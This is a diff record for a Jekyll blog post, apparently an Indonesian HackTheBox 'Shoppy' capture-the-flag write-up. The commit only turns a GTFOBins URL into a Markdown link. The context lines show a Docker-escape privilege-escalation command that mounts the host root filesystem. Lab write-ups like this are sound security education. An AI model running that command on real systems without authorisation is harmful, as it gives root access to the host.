

Before and after one commit to zufan-students/blog, a Jekyll site: the page built from _posts/2022-09-24-Hackthebox-Shoppy-WriteUps.md, in a window 1280 px wide and 900 px high, scrolled down 7764 px, cut to the strip 0-785 px from the top of the window. Shown: the whole strip, without its empty margins (251-1028 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2022-09-24-Hackthebox-Shoppy-WriteUps.md

````diff
--- a/_posts/2022-09-24-Hackthebox-Shoppy-WriteUps.md
+++ b/_posts/2022-09-24-Hackthebox-Shoppy-WriteUps.md
@@ -200,7 +200,7 @@
 /home/deploy
 ```
 
-### Privilege Escalation Post Exploitation: Root via Docker Escape menggunakan GTFOBins Docker(https://gtfobins.github.io/gtfobins/docker/) dan kita coba untuk menjalankan command dibawah
+### Privilege Escalation Post Exploitation: Root via Docker Escape menggunakan [GTFOBins Docker](https://gtfobins.github.io/gtfobins/docker/) dan kita coba untuk menjalankan command dibawah
 ```terminal
 docker run -v /:/mnt --rm -it alpine chroot /mnt sh
 ```
````
